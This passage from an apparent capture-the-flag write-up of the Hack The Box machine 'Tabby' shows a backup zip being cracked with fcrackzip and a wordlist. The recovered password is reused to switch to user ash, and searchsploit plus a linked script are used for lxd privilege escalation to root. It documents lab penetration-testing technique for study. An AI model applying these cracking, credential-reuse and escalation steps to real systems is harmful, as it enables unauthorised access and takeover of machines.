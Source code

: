 Looking around, found a password protected `zip` file. 

```bash
tomcat@tabby:/var/www/html/files$ file 16162020_backup.zip
file 16162020_backup.zip
16162020_backup.zip: Zip archive data, at least v1.0 to extract
```
Transfer it to our system. We can try cracking it using `fcrackzip`. 

```bash
kali@kali:~/Desktop/htb/tabby$ fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' bak.zip


PASSWORD FOUND!!!!: pw == admin@it
```

Try using this in our shell for user `ash`.

```bash
tomcat@tabby:/var/www/html/files$ su ash
su ash
Password: admin@it

ash@tabby:/var/www/html/files$ id
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

And we are `ash`

## Root Shell

Looking at the userid and the home directory, we can see that `lxd` is used. This is a software used for creating containers. There is a privilege escalation exploit available for this.

```bash
kali@kali:~/Desktop/tools$ searchsploit lxd
------------------------------------------------------------------------------------------ ----------------------------------------
 Exploit Title                                                                            |  Path
                                                                                          | (/usr/share/exploitdb/)
------------------------------------------------------------------------------------------ ----------------------------------------
Ubuntu 18.04 - 'lxd' Privilege Escalation                                                 | exploits/linux/local/46978.sh
------------------------------------------------------------------------------------------ ----------------------------------------
Shellcodes: No Result

```

There is a very convenient [lxd exploit](https://github.com/initstring/lxd_root/blob/master/lxd_rootv1.sh) script we can use. There is also a [detailed writeup](https://initblog.com/2019/lxd-root) regarding this issue. We can run this script to `sudo` without password.
